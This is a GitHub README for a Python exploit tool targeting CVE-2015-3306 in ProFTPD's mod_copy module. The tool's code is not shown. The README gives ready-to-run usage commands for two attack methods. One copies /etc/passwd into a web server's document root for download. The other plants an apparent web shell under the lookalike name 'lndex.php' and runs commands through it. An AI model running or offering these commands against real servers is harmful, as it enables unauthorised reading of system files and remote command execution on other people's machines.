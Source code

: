 # cpx_proftpd

Tool coded by Daniel Aldana for [CVE-2015-3306](http://bugs.proftpd.org/show_bug.cgi?id=4169) exploitation. Bug reported by Vadim Melihow.

###METHOD 1:

usage: 

```
python cpx_proftp.py <IP> <REMOTE_ABSOLUTEPATH_SRC_FILE> <REMOTE_ABSOLUTEPATH_DST_FILE>
```

ex:

```
python cpx_proftp.py 127.0.0.1 /etc/passwd /var/www/pass.txt
```

then try:

```
http://127.0.0.1/pass.txt
```

###METHOD 2:


usage: 

```
python cpx_proftp.py <IP> <REMOTE_ABSOLUTEPATH_WEBDIR>
```

ex:

```
python cpx_proftp.py 127.0.0.1 /var/www/html
```

then try:

```
http://127.0.0.1/lndex.php?img=ls
```
